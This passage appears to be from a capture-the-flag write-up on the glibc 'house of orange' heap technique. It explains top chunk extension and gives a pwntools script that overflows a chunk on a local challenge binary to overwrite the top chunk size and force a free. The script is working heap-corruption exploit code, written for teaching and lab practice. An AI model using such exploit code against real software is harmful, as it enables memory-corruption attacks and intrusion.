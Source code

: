 There are a few mitigations for when and how this is allowed. The technique was originally describe by [angelboy](http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html) in the `house of orange` heap exploit technique. Shellphish made an [excellent writeup](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c) on it, if you want to read up on the specifics of `top chunk extension` and `vtable hijacking for filestreams`.

One thing to keep in mind, is that the `top chunk size` has to be `page-aligned` to pass the `mitigations`.



The `top chunk extension` method can be recreated on the challenge binary like the following:

```python
from pwn import *

elf = ELF("chal")
libc = elf.libc
p = process(elf.path)
gdb.attach(p)

def menu():
    return p.recvuntil(b'> ')

def malloc(size, data):
    p.sendline(b'1')
    p.sendlineafter(b'out:\n', str(size).encode())
    p.sendafter(b'out:\n', data)
    menu()

def see(index):
    p.sendline(b'2')
    p.sendlineafter(b"at:\n", str(index).encode())
    res = p.recvuntil(b"1)").split(b"\nMallocs")[0]
    menu()
    return res

def edit(index, data):
    p.sendline(b'3')
    p.sendlineafter(b"to:", str(index).encode())
    p.sendafter(b"out:", data)
    menu()




# Cause a free due to top chunk extension

size = 0x400 - 0x290 - 8                # Calculate the size needed to align top chunk
info("Mallocing %s bytes" % hex(size))
malloc(size, b'A'*size)                 # malloc() and fill with data to allow for strlen out of bounds write

info("Overwriting top chunk size with 0xc01")
edit(0, b'B'*size+p16(0xc01)+p8(0))     # Overwrite top chunk size

malloc(0x1000, b'GiveMeAFree')          # malloc() large data to trigger BRK()
                                        # And cause a free on previous

p.interactive()
```
